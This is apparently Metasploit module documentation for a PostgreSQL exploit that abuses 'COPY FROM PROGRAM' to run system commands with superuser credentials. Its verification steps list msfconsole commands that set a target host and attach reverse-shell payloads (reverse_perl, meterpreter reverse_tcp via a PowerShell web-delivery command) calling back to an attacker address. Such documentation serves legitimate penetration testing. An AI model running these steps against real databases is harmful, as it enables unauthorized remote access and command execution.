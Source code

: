 ## Vulnerable Application

This module attempts to create a new table, then execute system commands in the
context of copying the command output into the table.

This module should work on all Postgres systems running version 9.3 and above.

Download any version of PostgreSQL from 9.3 to 11.2 (Latest at time of writing)
Set up the software and connect as the postgres superuser.
Use the techniques described in this blogpost to verify command execution:
  https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5

## Verification Steps

  You must be able to connect to the PostgreSQL database, and have a valid set of superuser
  credentials, or a user in the 'pg_execute_server_program' group

  Exploiting Linux/OSX:

    1. Start msfconsole
    2. use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
    3. set RHOST target.ip.add.ress
    4. set payload cmd/unix/reverse_perl
    5. set PASSWORD postgres
    6. set USERNAME postgres
    7. set DATABASE postgres
    8. set LHOST my.ip.add.ress
    9. set LHOST myport
    10. exploit

  Exploiting Windows:

    1. Start msfconsole
    2. use exploit/multi/script/web_delivery
    3. set target 2
    4. set payload windows/meterpreter/reverse_tcp
    5. set LHOST my.ip.add.ress
    6. exploit -j
    7. Copy powershell command, add \ to escape any single quotes
    8. use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
    9. set RHOST target.ip.add.ress
    10. set COMMAND powershell... (Output from Step 7)
    11. set PASSWORD postgres
    12. set USERNAME postgres
    13. set DATABASE postgres
    14. exploit

## Options

  **TABLENAME**

  The name of the table to create in the database, default is set to 'msftesttable', this table will be dropped create a new
  one each time the exploit is run.
